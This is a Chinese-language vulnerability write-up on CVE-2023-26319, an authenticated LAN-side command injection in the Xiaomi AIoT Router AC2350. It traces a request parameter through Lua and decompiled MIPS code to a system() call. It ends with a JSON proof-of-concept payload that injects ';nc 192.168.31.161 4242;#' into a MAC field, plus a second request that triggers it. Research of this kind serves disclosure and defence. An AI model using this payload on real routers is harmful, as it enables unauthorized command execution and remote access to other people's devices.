

#### 背景
此次分析的设备为 MI AIoT Router AC2350分析的漏洞编号为CVE-2023-26319

该路由器基于OpenWrt，因此web服务都是基于OpenWrt的lua包，架构为32位大段MIPS，且大部分二进制没有PIE,NX,canary等防护。

#### 攻击面分析

WIFI路由器的攻击面可以按照WAN口，LAN口，未授权和授权来划分，CVE-2023-26319是一个LAN口的需要授权的命令注入漏洞

针对LAN口的漏洞可以可以通过搜索包含 *entry\(\{"api"* 字符串的源文件来收集web接口

```shell
soeasy@ubuntu:~/router/fs $ grep -Rs "entry({\"api"
[...]
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "set_wifi_weak"}, call("setWifiWeakInfo"), (""), 286)
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "get_wifi_weak"}, call("getWifiWeakInfo"), (""), 287)
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "set_wan6"}, call("setWan6"), (""), 223, 0x08)
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "ipv6_status"}, call("ipv6Status"), (""), 223, 0x08)
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "miscan_switch"}, call("miscanSwitch"), (""), 290)
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "get_miscan_switch"}, call("getMiscanSwitch"), (""), 291)
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "set_wifi_txbf"}, call("setWifiTxbf"), (""), 295)
usr/lib/lua/luci/controller/api/xqnetwork.lua:    entry({"api", "xqnetwork", "set_wifi_ax"}, call("setWifiAx"), (""), 296)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome"}, firstchild(), _(""), 500)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome", "request"}, call("tunnelSmartHomeRequest"), _(""), 501)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome", "request_smartcontroller"}, call("tunnelSmartControllerRequest"), _(""), 502)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome", "request_miio"}, call("tunnelMiioRequest"), _(""), 503)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome", "request_mitv"}, call("requestMitv"), _(""), 504)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome", "request_yeelink"}, call("tunnelYeelink"), _(""), 505)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome", "request_camera"}, call("requestCamera"), _(""), 506)
usr/lib/lua/luci/controller/api/xqsmarthome.lua:    entry({"api", "xqsmarthome", "request_miiolist"}, call("requestMiioList"), _(""), 507)

soeasy@ubuntu:~/router/fs $ grep -Rs "entry({\"api" | wc -l
476
```

每一行的解释如下所示
```shell
--- API endpoint: `/api/xqnetwork/pppoe_catch` - Corresponding Lua function: `pppoeCatch()` - Authorization Flag: `0x09`
entry({"api", "xqnetwork", "pppoe_catch"}, call("pppoeCatch"), (""), 264, 0x09)
```

#### CVE-2023-26319 漏洞细节

漏洞接口为/api/xqsmarthome/request_smartcontroller

在/usr/lib/lua/luci/controller/api/xqsmarthome.lua中实现，漏洞参数为*payload*

```lua

function index()
    local page   = node("api","xqsmarthome")
    page.target  = firstchild()
    page.title   = ("")
    page.order   = 500
    -- We have to be authenticated to access this API
    page.sysauth = "admin"
    page.sysauth_authenticator = "jsonauth"
    page.index = true
    entry({"api", "xqsmarthome"}, firstchild(), _(""), 500)
    entry({"api", "xqsmarthome", "request"}, call("tunnelSmartHomeRequest"), _(""), 501)
    -- API endpoint `request_smartcontroller` is defined here 
    entry({"api", "xqsmarthome", "request_smartcontroller"}, call("tunnelSmartControllerRequest"), _(""), 502)
    entry({"api", "xqsmarthome", "request_miio"}, call("tunnelMiioRequest"), _(""), 503)
    entry({"api", "xqsmarthome", "request_mitv"}, call("requestMitv"), _(""), 504)
    entry({"api", "xqsmarthome", "request_yeelink"}, call("tunnelYeelink"), _(""), 505)
    entry({"api", "xqsmarthome", "request_camera"}, call("requestCamera"), _(""), 506)
    entry({"api", "xqsmarthome", "request_miiolist"}, call("requestMiioList"), _(""), 507) 
end

[...]

function tunnelSmartControllerRequest()
    local XQLog = require("xiaoqiang.XQLog")
    local XQCryptoUtil = require("xiaoqiang.util.XQCryptoUtil")
    local LuciJson = require("json")
    local http_data = LuciJson.decode(LuciHttp.formvalue("payload"))
    -- Our `payload` is base64 encoded
    local payload = XQCryptoUtil.binaryBase64Enc(LuciHttp.formvalue("payload"))

    [...]

    local cmd = XQConfigs.THRIFT_TUNNEL_TO_SMARTHOME_CONTROLLER % payload
	local LuciUtil = require("luci.util")
    -- Some command containing our `payload` is executed here
    LuciHttp.write(LuciUtil.exec(cmd))
end

```
可以发现*payload*被base64编码后进行了格式化字符串，*XQConfigs.THRIFT_TUNNEL_TO_SMARTHOME_CONTROLLER*后续传入LuciUtil.exec。*XQConfigs.THRIFT_TUNNEL_TO_SMARTHOME_CONTROLLER*其值如下。

```lua
THRIFT_TUNNEL_TO_DATACENTER = "thrifttunnel 0 '%s'"
THRIFT_TUNNEL_TO_SMARTHOME = "thrifttunnel 1 '%s'"
THRIFT_TUNNEL_TO_SMARTHOME_CONTROLLER = "thrifttunnel 2 '%s'"
THRIFT_TO_MQTT_IDENTIFY_DEVICE = "thrifttunnel 3 ''"
THRIFT_TO_MQTT_GET_SN = "thrifttunnel 4 ''"
THRIFT_TO_MQTT_GET_DEVICEID = "thrifttunnel 5 ''"
THRIFT_TUNNEL_TO_MIIO = "thrifttunnel 6 '%s'"
THRIFT_TUNNEL_TO_YEELINK = "thrifttunnel 7 '%s'"
THRIFT_TUNNEL_TO_CACHECENTER = "thrifttunnel 8 '%s'"
```
可以发现*payload*会被传到*thrifttunnel*这个二进制文件中
通过逆向*thrifttunnel*这个文件可以发现如下逻辑，*payload*会被传给一个*smartcontroller*的服务

```lua
// _ftext is basically the main function of the `thrifttunnel` binary
int32_t _ftext(int32_t argc, char** argv, char** envp) {
    [...]
    case 2:
    {
        uloop_init();
        int32_t _ubus_ctx = ubus_connect(data_412050);
        ubus_ctx = _ubus_ctx;
        int32_t ubus_id;

        if (_ubus_ctx != 0)
        {
            uloop_fd_add((_ubus_ctx + 0x2c), 9);
            ubus_id = ubus_lookup_id(ubus_ctx, "smartcontroller", 0x412074);
            
            if (ubus_id == 0)
            {
                blob_buf_init(0x41205c, 0);
                blobmsg_add_field(0x41205c, 3, "request", s2_1, (strlen(s2_1) + 1));
                s0_4 = nullptr;
                int32_t v0_19 = ubus_invoke_fd(ubus_ctx, data_412074, "process_request", data_41205c, 0x400f00, 0, 0x1388, 0xffffffff);
                a0_11 = ubus_ctx;
    [...]
```

继续分析*smartconroller*文件，可以发现通过mac参数进行命令注入，这个漏洞位于0x4061d4，这里函数被重命名为*run_sysapi_macfilter*


```lua
int32_t run_cmd(char* cmd)
{
    int32_t ret = 0;

    if (is_empty_str(cmd) == 0)
    {
        log(2, "system command: %s\n", cmd);
        int32_t system_res;
        int32_t a2_2;

        // Command executed using the `sytem()` function
        system_res = system(cmd);
        ret = 1;

        if (system_res != 0)
        {
            log(2, "system call error\n", a2_2);
            ret = 0;
        }
    }
    return ret;
}

// the `mac` parameter is user controlled
int32_t run_sysapi_macfilter(char* mac, int32_t enabled)
{
    char* const yes_no;
    char cmd_buffer[0x64];
    memset(&cmd_buffer, 0, 0x64);
    
    if (enable != 0)
    {
        yes_no = "no";
    }
    else
    {
        yes_no = "yes";
    }

    sprintf(&cmd_buffer,
            "/usr/sbin/sysapi macfilter set mac=%s wan=%s;/usr/sbin/sysapi macfilter commit",
            mac,
            a3);
    // `mac` is directly injected into `system()`!
    return run_cmd(&cmd_buffer);
}
```

继续逆向*smartconroller*可以发现使用的payload必须要格式化为JSON格式且带有"commmand"值,具体的command种类可以通过下面这个函数确定

```lua
int32_t scene_command_parser(char* command)
{
    void* json_object;
    int32_t a2;
    json_object = json_tokener_parse(command);
    char const* const error_msg;
    if (json_object == 0)
    {
        error_msg = "request is not a json object\n";
    }
    else
    {
        void* cmd_json_object;
        cmd_json_object = json_object_object_get(json_object, "command");
        if (cmd_json_object != 0)
        {
            int32_t cmd_string = json_object_get_string(cmd_json_object);
            int32_t s0_3;
            int32_t v0_11;
            if (strcmp(cmd_string, "scene_setting") == 0)
            {
                int32_t v0_12;
                int32_t a2_6;
                v0_12 = strcmp(cmd_string, "get_scene_setting");
                if (v0_12 == 0)
                {
                    if (strcmp(cmd_string, "get_single_scene_setting") == 0)
                    {
                        if (strcmp(cmd_string, "get_multiple_scene_setting") == 0)
                        {
                            if (strcmp(cmd_string, "scene_update") == 0)
                            {
                                if (strcmp(cmd_string, "scene_start") == 0)
                                {
                                    if (strcmp(cmd_string, "scene_stop") == 0)
                                    {
                                        if (strcmp(cmd_string, "scene_launch") == 0)
                                        {
                                            if (strcmp(cmd_string, "scene_launch_delete") == 0)
                                            {
                                                if (strcmp(cmd_string, "scene_delete") == 0)
                                                {
                                                    if (strcmp(cmd_string, "scene_start_by_device_status") == 0)
                                                    {
                                                        if (strcmp(cmd_string, "is_scene_processing") == 0)
                                                        {
                                                            if (strcmp(cmd_string, "get_scene_count") == 0)
                                                            {
                                                                if (strcmp(cmd_string, "reset_scenes") == 0)
                                                                {
                                                                    if (strcmp(cmd_string, "scene_start_by_crontab") != 0)
                                                                    {
```


通过交叉引用可以发现上面提到*run_sysapi_macfilter*唯一被*scene_setting*这个command所引用，所以针对API */api/xqsmarthome/request_smartcontroller* 的命令注入的POC如下，通过创建一个新的"scene"且包含 *scene_setting* command,其中MAC地址包含了命令注入的payload

```lua
{
    "command":"scene_setting",
    "name":"it3",
    "action_list":[
            {
                "thirdParty":"xmrouter",
                "delay":17,
                "type":"wan_block",
                "payload":
                    {
                        "command":"wan_block",
                        // Command Injection - making an exterior connection
                        "mac":";nc 192.168.31.161 4242;#"
                    }
            }
        ],
    "launch":
        {
            "timer":
                {
                    "time":"2:2",
                    "repeat":"0",
                    "enabled":true
                }
        }
}
```

之后通过 *scene_start_by_crontab* 来启动scene

```lua
{
    "command":"scene_start_by_crontab",
    "time":"2:2",
    "week":0
}

```



#### 参考链接
https://blog.thalium.re/posts/rooting-xiaomi-wifi-routers/